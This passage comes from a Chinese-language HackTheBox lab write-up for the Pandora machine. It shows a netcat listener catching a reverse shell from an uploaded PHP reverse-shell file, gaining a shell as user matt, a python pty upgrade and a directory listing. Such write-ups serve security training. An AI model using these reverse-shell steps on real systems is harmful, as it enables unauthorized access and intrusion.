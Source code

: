 + 本地监听：
  
  ```
  ┌──(kali㉿kali)-[~/桌面/HTB/Pandora]
  └─$ nc -nlvp 8888
  listening on [any] 8888 ... 
  ```

+ 根据上传文件页面显示，文件位置应为/images/php-reverse-shell.php:

  ![](/style/image/2024-01-31-22-31-39.png)

+ 反弹shell，初步获得用户matt的权限：

  ```
  ┌──(kali㉿kali)-[~/桌面/HTB/Pandora]
  └─$ nc -nlvp 8888
  listening on [any] 8888 ...
  connect to [10.10.16.7] from (UNKNOWN) [10.10.11.136] 36522
  Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
  14:31:33 up 34 min,  0 users,  load average: 0.00, 0.00, 0.00
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=1000(matt) gid=1000(matt) groups=1000(matt)
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  matt
  $ which python3
  /usr/bin/python3
  $ python3 -c "import pty;pty.spawn('/bin/bash')"
  matt@pandora:/$ ls -l
  ls -l
  total 60
  lrwxrwxrwx   1 root root     7 Feb  1  2021 bin -> usr/bin
  drwxr-xr-x   4 root root  4096 Jan  3  2022 boot
  drwxr-xr-x   2 root root  4096 Jun 11  2021 cdrom
  drwxr-xr-x  19 root root  4000 Jan 31 13:57 dev
  drwxr-xr-x 105 root root  4096 Jan  3  2022 etc
  drwxr-xr-x   4 root root  4096 Dec  7  2021 home
  lrwxrwxrwx   1 root root     7 Feb  1  2021 lib -> usr/lib
  lrwxrwxrwx   1 root root     9 Feb  1  2021 lib32 -> usr/lib32
  lrwxrwxrwx   1 root root     9 Feb  1  2021 lib64 -> usr/lib64
  lrwxrwxrwx   1 root root    10 Feb  1  2021 libx32 -> usr/libx32
  drwx------   2 root root 16384 Jun 11  2021 lost+found
  drwxr-xr-x   2 root root  4096 Dec  7  2021 media
  drwxr-xr-x   2 root root  4096 Dec  7  2021 mnt
  dr-xr-xr-x 273 root root     0 Jan 31 13:57 proc
  drwx------   5 root root  4096 Jan 31 13:57 root
  drwxr-xr-x  27 root root   800 Jan 31 14:01 run
  lrwxrwxrwx   1 root root     8 Feb  1  2021 sbin -> usr/sbin
  drwxr-xr-x   2 root root  4096 Dec  7  2021 srv
  dr-xr-xr-x  13 root root     0 Jan 31 13:57 sys
  drwxrwxrwt   2 root root  4096 Jan 31 14:28 tmp
  drwxr-xr-x  15 root root  4096 Jun 11  2021 usr
  drwxr-xr-x  14 root root  4096 Dec  7  2021 var
  ```